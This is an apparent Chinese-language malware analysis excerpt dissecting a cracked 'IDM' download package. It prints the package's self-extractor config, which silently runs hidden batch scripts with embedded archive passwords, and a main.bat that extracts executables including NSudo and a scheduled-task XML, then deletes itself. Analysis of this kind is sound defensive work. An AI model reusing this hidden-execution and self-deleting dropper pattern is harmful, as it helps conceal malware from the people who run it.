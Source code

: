 ```bash
;!@Install@!UTF-8!
Title=""
Progress="no"
GUIFlags="8"
OverwriteMode="0"
InstallPath="%Temp%\ytmp"
ExtractPathText=""
ExtractPathTitle=""
ExtractTitle=""
ExtractDialogText=""
ExtractCancelText=""
SetEnvironment="l2=crackingcity"
SetEnvironment="l3=un#912345678@rar"
SetEnvironment="ppD=%AppData%"
SetEnvironment="PW=tmp@tmp420"
SetEnvironment="mainExePatch=%%S"
RunProgram="hidcon:\"%%T\\main.bat\""
RunProgram="nowait:hidcon:\"%%T\\IDM0.bat\""
RunProgram="\"%%T\\IDM.bat\""
;!@InstallEnd@!
```

运行了压缩包里的main.bat，随后运行了IDM0.bat和IDM.bat

值得注意的是，前面使用SetEnvironment设置了几个环境变量，一会在bat脚本里都会用到

### 压缩包文件

压缩包内文件如图：

![image-20240503231430814](image-20240503231430814.png)

#### main.bat

查看main.bat内容：

```bash
@ECHO OFF

ATTRIB -S +H .

7za e files.tmp -p%PW% -aoa IDM0.bat
7za e files.tmp -p%PW% -aoa IDM.bat
7za e files.tmp -p%PW% -aoa NSudo86x.exe
7za e files.tmp -p%PW% -aoa AB2EF.exe
7za e files.tmp -p%PW% -aoa UpdateTask.xml

DEL /F /Q /A files.tmp
DEL /F /Q /A %0

EXIT
```
